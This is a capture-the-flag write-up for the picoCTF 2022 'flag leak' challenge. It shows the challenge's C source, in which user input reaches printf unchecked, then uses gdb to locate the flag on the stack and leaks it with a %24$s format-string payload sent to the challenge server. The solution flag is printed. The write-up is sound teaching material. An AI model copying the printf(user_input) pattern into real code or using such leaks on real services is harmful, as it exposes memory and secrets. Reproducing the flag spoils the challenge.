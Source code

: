# flag leak - picoCTF 2022 - CMU Cybersecurity Competition
Binary Exploitation, 300 Points

## Description

![‏‏info.JPG](images/info.JPG)
 
## flag leak Solution

Let's observe the attached file [vuln.c](./vuln.c):
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

Let's run ```checksec``` on the attached file [vuln](./vuln):
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/flag_leak]
└──╼ $ checksec vuln
[*] '/pictoctf2022/binary_exploitation/flag_leak/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

We can see no [PIE](https://ir0nstone.gitbook.io/notes/types/stack/pie) enable.

As we can see, we have a [format-string-vulnerability](https://resources.infosecinstitute.com/topic/how-to-exploit-format-string-vulnerabilities/) on ```vuln``` function by calling to ```printf(story)```, Using that we can leak the string of the flag from the stack.

First, Let's find what is the location on stack of ```flag``` buffer using ```gdb```:
```console
gef➤  disassemble vuln 
Dump of assembler code for function vuln:
   0x08049333 <+0>:	endbr32 
   0x08049337 <+4>:	push   ebp
   0x08049338 <+5>:	mov    ebp,esp
   0x0804933a <+7>:	push   ebx
   0x0804933b <+8>:	sub    esp,0xc4
   0x08049341 <+14>:	call   0x80491f0 <__x86.get_pc_thunk.bx>
   0x08049346 <+19>:	add    ebx,0x2cba
   0x0804934c <+25>:	sub    esp,0x8
   0x0804934f <+28>:	push   0x40
   0x08049351 <+30>:	lea    eax,[ebp-0x48]
   0x08049354 <+33>:	push   eax
   0x08049355 <+34>:	call   0x80492b6 <readflag>
   0x0804935a <+39>:	add    esp,0x10
   0x0804935d <+42>:	sub    esp,0xc
   0x08049360 <+45>:	lea    eax,[ebx-0x1f9c]
   0x08049366 <+51>:	push   eax
   0x08049367 <+52>:	call   0x80490f0 <printf@plt>
   0x0804936c <+57>:	add    esp,0x10
   0x0804936f <+60>:	sub    esp,0x8
   0x08049372 <+63>:	lea    eax,[ebp-0xc8]
   0x08049378 <+69>:	push   eax
   0x08049379 <+70>:	lea    eax,[ebx-0x1f6d]
   0x0804937f <+76>:	push   eax
   0x08049380 <+77>:	call   0x8049180 <__isoc99_scanf@plt>
   0x08049385 <+82>:	add    esp,0x10
   0x08049388 <+85>:	sub    esp,0xc
   0x0804938b <+88>:	lea    eax,[ebx-0x1f67]
   0x08049391 <+94>:	push   eax
   0x08049392 <+95>:	call   0x8049120 <puts@plt>
   0x08049397 <+100>:	add    esp,0x10
   0x0804939a <+103>:	sub    esp,0xc
   0x0804939d <+106>:	lea    eax,[ebp-0xc8]
   0x080493a3 <+112>:	push   eax
=> 0x080493a4 <+113>:	call   0x80490f0 <printf@plt>
   0x080493a9 <+118>:	add    esp,0x10
   0x080493ac <+121>:	sub    esp,0xc
   0x080493af <+124>:	push   0xa
   0x080493b1 <+126>:	call   0x8049170 <putchar@plt>
   0x080493b6 <+131>:	add    esp,0x10
   0x080493b9 <+134>:	nop
   0x080493ba <+135>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x080493bd <+138>:	leave  
   0x080493be <+139>:	ret    
End of assembler dump.
gef➤  b *0x0804935a
Breakpoint 2 at 0x804935a
gef➤  r

```

We set a breakpoint right after ```readflag``` function, Let's see the stack at this point:
```console
gef➤  r
Starting program: /pictoctf2022/binary_exploitation/flag_leak/vuln 

Breakpoint 2, 0x0804935a in vuln ()

─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcfa0│+0x0000: 0xffffd030  →  "sdfs\n"	 ← $esp
0xffffcfa4│+0x0004: 0x00000040 ("@"?)
0xffffcfa8│+0x0008: 0xf7dc78e8  →  0x00000000
0xffffcfac│+0x000c: 0x08049346  →  <vuln+19> add ebx, 0x2cba
0xffffcfb0│+0x0010: 0xf7dd0ee8  →  0x00002ed0
0xffffcfb4│+0x0014: 0xffffffff
0xffffcfb8│+0x0018: 0xffffcfe0  →  0xf7fa5d20  →  0xfbad2087
0xffffcfbc│+0x001c: 0xf7dcc8a8  →  0x00002f07

```

We can see that we need to leak the 24th place on the stack, We can do it using ```%24$s``` payload:
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/flag_leak]
└──╼ $ nc saturn.picoctf.net 58009
Tell me a story and then I'll tell you one >> %24$s
Here's a story - 
picoCTF{L34k1ng_Fl4g_0ff_St4ck_eb9b46a2}

```

And we get the flag ```picoCTF{L34k1ng_Fl4g_0ff_St4ck_eb9b46a2}```